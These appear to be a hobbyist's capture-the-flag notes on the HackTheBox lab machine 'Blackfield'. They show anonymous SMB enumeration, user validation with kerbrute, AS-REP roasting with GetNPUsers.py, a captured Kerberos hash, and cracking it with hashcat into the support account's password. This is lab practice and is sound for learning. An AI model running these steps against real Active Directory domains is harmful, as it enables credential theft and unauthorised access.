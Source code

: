 
```
smbclient -L 10.10.10.192 -U 'anonymous'
```
![[Pasted image 20231117113545.png]]
We are only able to access profiles$ through SMB with anonymous login for now
```
prompt off
recurse on
ls
mget *
```

I think this is the list of users in the profile directory so i have copied everything in a txt file
```
for d in ./*;do [[ -d "$d" ]] && echo "${d##./}" >> dir.txt; done
```
So let's run this list in the kerbute to check my theory if the users are valid or not.

```

```

```
enum4linux -a 10.10.10.192
Domain Name: BLACKFIELD                                                        
Domain Sid: S-1-5-21-4194615774-2175524697-3563712290
```

As Port 88 is open (i.e. aka kerberos ) so it's good to run kerbrute to see if we can have any valid users
```
kerbrute userenum -d blackfield.local --dc 10.10.10.192 userlist.txt -t 100
```

![[Pasted image 20231117121845.png]]

Yup i got more valid users
![[Pasted image 20231117121955.png]]
```
audit2020@blackfield.local
support@blackfield.local
svc_backup@blackfield.local
Administrator@blackfield.local
administrator@blackfield.local
guest@blackfield.local
LYDERICLEFEBVRE@BLACKFIELD.LOCAL
```

So a service is running it's worth to see if we can get a kerbos ticket hash out of it or not.
No we are not able to get the service ticket this time
```
GetNPUsers.py -dc-ip 10.10.10.192  blackfield.local/svc_backup -no-pass
```
![[Pasted image 20231117125042.png]]
Let's try with audit as it seems juicy to me
This way don't seems to be working but i have seems another way when enumerating Forest

AS-REP Roasting
AS-REP Roasting with GetNPUsers which does not require a preauthentication
```
GetNPUsers.py blackfield/ -usersfile userlist.txt -format john -dc-ip 10.10.10.192
```
I have pasted all the users in the userlist and gues what we got the hash
```
$krb5asrep$support@blackfield.local@BLACKFIELD:f95ca094d00fd53e25018957c9fef261$71f916d8dcc4fd660bb810696617786ec4731560ef6836aed49a7033d0cc94b5d34c8777db47b128521e56b7b06f66197e60b77cb14e409c091a9e715039851eb6fbc9f952b8963e0e8fd5f0825479b376438c5cfddd48290a627ff1a8c8eba7de79b6298e28895c5d20f41e1a5ef7b151a8427eb8a926108f917079232a89b1e25b197e573b570cc944520e040375f0077e347b5a5179b078c5f3eb2a85fb8e1878247b9e1530553c1ba241a8887c3e1706171074f172b14b3d23fe9d1f46e37857bf0e38e47177e35ca9b0ac09f80d9255419c356b39ca9923a23c8231aba9812d624a97f825c332ff38bee6be
```
![[Pasted image 20231117125339.png]]

So now we have password let's see if we can use that password to login with another user and see which share we can access using this userid and password
See the hash carefully and got to know that we got the hash for support user and not audit user.
```
support
#00^BlackKnight
```

Let's crack the hash
```
hashcat --help | grep Kerberos
```
![[Pasted image 20231117125521.png]]
as the type was not mentioned so i decided to test everytype till we don't get the error for mismatch

```
.\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20231117130526.png]]
So we were to crack the hash successfully.


Let's see the port 5985 that's bugging me out . We have a list of valid users let's see what we can do now with it

